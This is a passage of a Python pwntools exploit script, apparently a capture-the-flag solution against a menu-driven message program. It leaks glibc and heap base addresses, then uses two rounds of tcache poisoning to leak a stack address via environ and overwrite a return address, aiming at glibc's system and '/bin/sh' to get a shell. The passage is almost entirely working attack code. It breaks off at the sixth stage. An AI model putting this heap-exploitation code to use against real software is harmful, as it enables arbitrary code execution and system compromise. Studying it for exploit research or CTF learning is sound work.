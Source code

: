 ```python
    print(p.recvuntil(b">> ").decode())
    p.send(text)
    print(p.recvuntil(b"Message Updated!\n").decode())
    log.info(f"Edting message at index: {index} with text: {text}")

def view_message(index):
    print(p.recvuntil(b">> ").decode())
    p.send(b"3\n")
    print(p.recvuntil(b"Message Index: ").decode())
    p.send(str(index).encode() + b"\n")
    print(p.recvuntil(b"Message: ").decode())
    log.info(f"Viewing message at index: {index}")
    return p.recvuntil(b"\n\n").strip()

def remove_message(index):
    print(p.recvuntil(b">> ").decode())
    p.send(b"4\n")
    print(p.recvuntil(b"Message Index: ").decode())
    p.send(str(index).encode() + b"\n")
    print(p.recvuntil(b"Message Deleted!\n").decode())
    log.info(f"Removing message at index: {index}")

# Stage 1: Leak glibc base address and calculate required glibc addresses
add_message(0, 0x410+1, b"A"*0x410)
add_message(1, 0x8+1, b"B"*0x8)
remove_message(0)
glibc_base_addr = (u64(view_message(0)[0:6].ljust(8, b"\x00")) & ~0xfff) - 0x1d2000
log.info(f"Leaking glibc base address: {hex(glibc_base_addr)}")
e = ELF("libc.so.6")
glibc_system_addr = glibc_base_addr + e.symbols.system
glibc_binsh_addr = glibc_base_addr + next(e.search(b"/bin/sh"))
glibc_environ_addr = glibc_base_addr + e.symbols.environ

# Stage 2: Leak heap base address
remove_message(1)
heap_base_addr = ((u64(view_message(1)[0:5].ljust(8, b"\x00")) << 12) ^ 0) & ~0xfff
log.info(f"Leaking heap base address: {hex(heap_base_addr)}")

# Stage 3: Prepare for the first tcache poisoning
add_message(2, 0x410+1, b"C"*0x410)
add_message(3, 0x8+1, b"D"*0x8)
add_message(4, 0x8+1, b"E"*0x8)
remove_message(3)
remove_message(4)

# Stage 4: Perform the first tcache poisoning to leak stack address in environ and calculate return address of create
edit_message(4, p64(((heap_base_addr + 0x6e0) >> 12) ^ (glibc_environ_addr - 0x10)))
add_message(5, 0x8+1, b"F"*0x8)
add_message(6, 0x10+1, b"G"*0x10)
stack_addr_in_environ = u64(view_message(6)[0x10:0x10+6].ljust(8, b"\x00"))
log.info(f"Leaking stack address in environ: {hex(stack_addr_in_environ)}")
add_message_return_addr = stack_addr_in_environ - 0x140

# Stage 5: Prepare for the second tcache poisoning
add_message(7, 0x28+1, b"H"*0x28)
add_message(8, 0x28+1, b"I"*0x28)
remove_message(7)
remove_message(8)

# Stage 6: Perform the second tcache poisoning
edit_message(8, p64(((heap_base_addr + 0x740) >> 12) ^ (add_message_return_addr - 0x8)))
add_message(9, 0x28+1, b"J"*0x28)
```